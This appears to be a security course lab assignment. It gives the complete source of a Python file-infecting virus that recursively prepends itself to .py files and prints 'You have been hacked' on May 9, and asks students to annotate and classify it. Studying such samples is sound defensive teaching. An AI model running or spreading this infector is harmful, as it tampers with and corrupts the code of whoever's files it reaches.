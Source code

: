 *Juan Miguel Cano*

*December 15, 2023*

# Ops Challenge: Python Malware Analysis

## Overview

The ability to read code written by others is a valuable skill to carry into your new career. Today you will analyze a malicious script written in Python and submit an interpreted version of the file with comments.

**Scenario**

Last week, a GlobeX engineer was terminated from the organization under unpleasant circumstances. This morning, your service desk team responded to a ticket from the engineering department that their Python script repository had been tampered with, with the words “You have been hacked” written and saved into the scripts themselves. The service desk team also noted that the system clocks had been tampered with on various engineering computers an incorrectly set to May 9. 

After a careful review of system logs you find that the below script was executed with administrator privilege on various engineering systems.

The GlobeX board of directors has asked you to analyze the contents of this script and explain in plain terms what the script does.

## Objectives
- Copy the below Python script to your public GitHub repo. Do not execute this script in your Ubuntu VM used for class. If you wish to execute this script, either backup your VM using VirtualBox Snapshot or create a separate VM for testing.

#!/usr/bin/python3
import os
import datetime

SIGNATURE = "VIRUS"

def locate(path):
    files_targeted = []
    filelist = os.listdir(path)
    for fname in filelist:
        if os.path.isdir(path+"/"+fname):
            files_targeted.extend(locate(path+"/"+fname))
        elif fname[-3:] == ".py":
            infected = False
            for line in open(path+"/"+fname):
                if SIGNATURE in line:
                    infected = True
                    break
            if infected == False:
                files_targeted.append(path+"/"+fname)
    return files_targeted

def infect(files_targeted):
    virus = open(os.path.abspath(__file__))
    virusstring = ""
    for i,line in enumerate(virus):
        if 0 <= i < 39:
            virusstring += line
    virus.close
    for fname in files_targeted:
        f = open(fname)
        temp = f.read()
        f.close()
        f = open(fname,"w")
        f.write(virusstring + temp)
        f.close()

def detonate():
    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9:
        print("You have been hacked")

files_targeted = locate(os.path.abspath(""))
infect(files_targeted)
detonate()

Perform an analysis of the Python-based code.

- Insert comments into each line of the script explaining in your own words what the virus is doing on this line.

- Insert comments above each function explaining what the purpose of this function is and what it hopes to carry out.

- Insert comments above the final three lines explaining how the functions are called and what this script appears to do.

**Stretch Goals (Optional Objectives)**

- Pursue stretch goals if you are a more advanced user or have remaining lab time.

- In your submission, include comments towards the bottom explaining the below:

- Identify all the core Python/coding tools used by this script, e.g. functions.

- What kind of malware is this? Define this type of malware in your own words.

- How well is this code written? 

- Would you have done something differently to achieve the same objective?